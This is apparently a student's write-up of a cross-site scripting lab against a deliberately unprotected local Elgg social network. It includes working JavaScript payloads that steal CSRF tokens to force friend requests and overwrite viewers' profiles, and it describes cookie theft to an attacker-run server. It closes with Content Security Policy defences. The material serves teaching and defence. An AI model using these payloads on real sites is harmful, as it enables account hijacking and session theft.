# Cross-Site Scripting (XSS) Attack Lab

## Description

In this lab we are going to learn about Cross-site scripting (XSS for short).
XSS is a type of vulnerability commonly found in web applications. This vulnerability
makes it possible for attackers to inject malicious JS into victim’s web browser. We are going to launch our attack against a popular open source social media Web App called Elgg which we can run by setting up the available docker.
Elgg normally has various methods to prevent this attack, but here we are dealing with a version of the app that has this features disabled on.

## Setup
we can run the webapp with `dcbuild` and then `dcup` commands. Here you can see the index page of the app:



## Task 1
In this task we want to use the about me field of the samy profile page and write a javascript alert message inside a script tag. This is easily possible since the site allows one to disable the advanced text writer and directly work with the html. This is done in the below figure:



now what happens when we save our profile page? the content of the about me (i.e. the JS) will we saved on the database as our about me field; and then whoever tries to view our profile page will receive this content. Now because we have access to the HTML, we can actualy send our JS encoded in the html of the page that another user is seeing and thereby we have found a tunnel to execute our code in the browser of the viewer, this is the essence of XSS attack and so making sure that this tunnel is closed is the main defence mechanism.
Here you can see this in action; alice is viewing the profile page of Samy, and voila! our code is executed in the alice browser:



## Task 2

this is very similar to the previous task. In this task we show the cookie of the user to him/her self:





## Task 3

this task is a little bit more interesting. Here we use the `src` field of a `img` tag to force the browser of the victim to send out a HTTP Get request with the victims cookie attached to the url of the get request to any HTTP server we like, the one we are running ourself perhaps!



and when Alice views the profile of Samy,look at what we receive on our 5555 port:



## Task 4

in this task we will add Samy to the friend list of any one who views Samy's profile page. To accomplish this task we first need to understand how the frontend communicates with the backend when one tries to befriend another person; this can be done by viewing the HTTP messages that are transferred when one clicks on the add friend button:



the exact message is a HTTP GET request to this url:

```
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1629732512&__elgg_token=ji9B6HiEDS4QKqoYh_oHzw&__elgg_ts=1629732512&__elgg_token=ji9B6HiEDS4QKqoYh_oHzw
```

Interestingly the `__elgg_ts` and `__elgg_token` parameters are repeated twice which is perhaps due to a bug in the frontend code!
This parameters are a security measure to prevent another attack called Cross-Site Request Forgery (CSRF) attack. But these won't stop us because we our code is treated like a part of the official Web App code by the browser meaning that we actually have access to this parameters.
Now that we know how to communicate with the backend, we are going to use Ajax to send a GET request like the one above to the backend:

```
<script>
    window.onload = function () {
        Ajax = null;
        let url =  `/action/friends/add?friend=59
        &__elgg_ts=${elgg.security.token.__elgg_ts}
        &__elgg_token=${elgg.security.token.__elgg_token}`

        Ajax = new XMLHttpRequest();
        Ajax.open('GET', url, true);
        Ajax.send();
    }

</script>

```

Now when alice views our profile page; in the background browser is sending a GET request to the server saying that alice has clicked on the add friend button (but she has not)!





### Questions:

* Question 1: Explain the purpose of Lines (1) and (2), why are they are needed?

* **Answer: this has already been answered**

* Question 2: If the `Elgg` application only provide the Editor mode for the "About Me" field, i.e.,you cannot switch to the Text mode, can you still launch a successful attack?

* **Answer: Yes! one needs to simply see actually what HTTP request the browser is sending to the server when a user updates his/her profile page and then send the request himself bypassing the front-end constraint.**

## Task 5

this task is about being able to change victims profiles (specifically their *about me* section) using our worm. So like the previous task, first we need to understand what happens when a user edits his/her profile:



So the browser sends an HTTP POST request to the following url:

```
/action/profile/edit
```

and with the following content:

```
__elgg_token=9ulb_RpFPuNVTHKyeO8iMw
&__elgg_ts=1629740963
&name=Samy
&description=testing...
&accesslevel[description]=2
&briefdescription=&accesslevel[briefdescription]=2
&location=&accesslevel[location]=2
&interests=&accesslevel[interests]=2
&skills=&accesslevel[skills]=2
&contactemail=&accesslevel[contactemail]=2
&phone=&accesslevel[phone]=2
&mobile=&accesslevel[mobile]=2
&website=&accesslevel[website]=2
&twitter=&accesslevel[twitter]=2
&guid=59
```

Okay so if we want to change the *about me* part of the profile of our victims we need to send a POST request like the above and change the about me part to whatever we like; further we need to know the following about our user:
* `name`
* `guid`

these our available to us with the help of  `elgg.session.user` object;This is our scrip for this task:

```
<script>
    window.onload = function () {
        let userName = elgg.session.user.name;
        let guid = elgg.session.user.guid;
        let ts = elgg.security.token.__elgg_ts;
        let token = elgg.security.token.__elgg_token;
        let aboutMe = "** You've been Ha*ked!! **";
        
        let content = `__elgg_token=${token}
        &__elgg_ts=${ts}
        &name=${userName}
        &description=<p>${aboutMe}</p>
        &accesslevel[description]=2
        &briefdescription=
        &accesslevel[briefdescription]=2
        &location=
        &accesslevel[location]=2
        &interests=
        &accesslevel[interests]=2
        &skills=
        &accesslevel[skills]=2
        &contactemail=
        &accesslevel[contactemail]=2
        &phone=
        &accesslevel[phone]=2
        &mobile=
        &accesslevel[mobile]=2
        &website=
        &accesslevel[website]=2&
        twitter=
        &accesslevel[twitter]=2
        &guid=${guid}`;

        let samyGuid = 59;
        let url = `/action/profile/edit`;
        if (guid != samyGuid) {
            var Ajax = null;
            Ajax = new XMLHttpRequest();
            Ajax.open('POST', url, true);
            Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            Ajax.send(content);
        }

    }

</script>

```

in the script we have set "** You've been Ha*ked!! **" string as the about me of our victims. Note that in the script we check that if the current user viewing the about me of Samy, is Samy himself, we do not send the POST request. This check is necessary otherwise the first time we view our own profile the script would override itself!

script in action:






### Questions:

* Question 3: Why do we need the `if`? Remove this line, and repeat your attack. Report and explain your observation.

**Answer: this question has already been answered. But here we show what happens when we remove the if statement:**





## Task 6

** TO BE DONE

# Task 7

in this task we learn about CSP (Content Security Policy) which is a mechanism used by most modern browsers to limit the fetch of documents and scripts and content in general to a set of trusted locations on the web.
We can use this mechanism by setting the right HTTP headers. This can be done either from the Web application itself or with the help of Apache configuration files. In this task we have set up three websites all showing the exact same content.

1.
* `example32a` doesn't use any CSP; which results in all JS code to be fetched and executed by the browser.
* `example32b` sets the CSP from apache conf file and it sets it so that only scripts from it's directory (no inline scripts) and from `example70.com` are allowed to be executed. As a result we see that only `area-4` span and `area-6` spans are overridden.
* and finally `example32c` sets the CSP from the web applications and it sets it so that in addition to the above, inline scripts but with the class of `nonce-111-111-111` are allowed to be executed.

2. Note that in the both scenarios that CSP was activated, the incline script of the button element was disabled. This feature is enough to counteract all our attacks on ELGG, since we were using an inline script.

3. by adding `*.example60.com` to the apache conf file for `example32b` we see that now both area5 and area6 are *OK*.

```
# Purpose: Do not set CSP policies
<VirtualHost *:80>
    DocumentRoot /var/www/csp
    ServerName www.example32a.com
    DirectoryIndex index.html
</VirtualHost>

# Purpose: Setting CSP policies in Apache configuration
<VirtualHost *:80>
    DocumentRoot /var/www/csp
    ServerName www.example32b.com
    DirectoryIndex index.html
    Header set Content-Security-Policy " \
             default-src 'self'; \
             script-src 'self' *.example60.com    *.example70.com \
           "
</VirtualHost>
 
# Purpose: Setting CSP policies in web applications
<VirtualHost *:80>
    DocumentRoot /var/www/csp
    ServerName www.example32c.com
    DirectoryIndex phpindex.php
</VirtualHost>

# Purpose: hosting Javascript files
<VirtualHost *:80>
    DocumentRoot /var/www/csp
    ServerName www.example60.com
</VirtualHost>

# Purpose: hosting Javascript files
<VirtualHost *:80>
    DocumentRoot /var/www/csp
    ServerName www.example70.com
</VirtualHost>

```



4. 

```
<?php
  $cspheader = "Content-Security-Policy:".
               "default-src 'self';".
               "script-src 'self' 'nonce-111-111-111' 'nonce-222-222-222' *.example60.com  *.example70.com".
               "";
  header($cspheader);
?>

<?php include 'index.html';?>

```
before: 

after: 

5.already explained
